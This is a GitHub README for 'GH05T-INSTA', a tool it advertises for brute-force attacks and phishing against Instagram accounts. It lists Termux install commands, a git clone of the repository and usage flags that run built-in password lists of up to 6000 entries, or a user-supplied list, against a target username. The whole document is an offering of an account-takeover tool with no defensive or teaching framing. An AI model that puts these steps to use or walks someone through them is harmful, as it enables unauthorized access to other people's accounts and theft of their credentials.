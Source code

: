 # GH05T-INSTA
Instagram Brute force Attack and Phishing Tool { The Best Choice } GH05T-INSTA 




<img src="https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/gh05thunter5.jpg" alt="gh05t-logo">

```
pkg install git
```
```
pkg install python
```
```
pkg install python2
```
```
git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA
```
```
cd GH05T-INSTA
```
```
python install.py
```
```


gh05t --user username --pass 1
{ username  :  Enter your instagram account username }
{ 1  :  Enter your Password List Number < 1 = 1059 > < 2 = 5000 number > < 3 = 6000 number and name mix > }

gh05t --user username --passadd Your-Pass
{ Your-Pass  :  Enter Your Password Location and Name also }

gh05t --update




gh05t --error




gh05t developer 



gh05t --passadd

```
<img src="https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/Gh05t.jpg" alt="guide">
